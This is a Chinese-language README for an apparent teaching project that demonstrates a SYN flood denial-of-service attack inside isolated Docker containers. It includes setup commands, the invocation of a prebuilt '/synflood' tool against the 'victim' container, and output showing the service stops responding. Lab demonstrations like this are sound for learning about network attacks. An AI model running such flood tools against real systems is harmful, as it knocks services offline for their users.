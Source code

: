 README
=======

利用 Docker 的自定义网络功能演示 [SYN flood 攻击](https://en.wikipedia.org/wiki/SYN_flood).

### 使用方法

```
git clone https://github.com/knight42/synflood-play && cd synflood-play

docker pull knight42/synflood

./setup.sh
```

执行完 `setup.sh` 后会创建三个容器，分别为 `evil1`、`evil2`、`victim`，其中 `victim` 是攻击目标。

接下来进入 `evil1` 容器：

```
$ docker exec -ti evil1 bash
```

能正常 ping 通 `victim` 容器：

```
bash-4.3# ping victim
PING victim (172.28.5.0): 56 data bytes
64 bytes from 172.28.5.0: seq=0 ttl=64 time=0.219 ms
64 bytes from 172.28.5.0: seq=1 ttl=64 time=0.128 ms
64 bytes from 172.28.5.0: seq=2 ttl=64 time=0.128 ms
64 bytes from 172.28.5.0: seq=3 ttl=64 time=0.131 ms
...
```

执行 `curl victim` 也能看到会返回 404 页面：

```
bash-4.3# curl victim
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

这时我们对 `victim` 进行 SYN flood (向 `victim` 80 端口发送大量 TCP SYN packets):

```
bash-4.3# /synflood 172.28.5.0
```

然后我们进入 `evil2`:

```
$ docker exec -ti evil2 bash
```

执行 `curl -v victim`, 应该会发现程序一直没返回，即对 `victim` 的 DoS 攻击已经成功了。

```
bash-4.3# curl -v victim
* Rebuilt URL to: victim/
*   Trying 172.28.5.0...
* TCP_NODELAY set
```
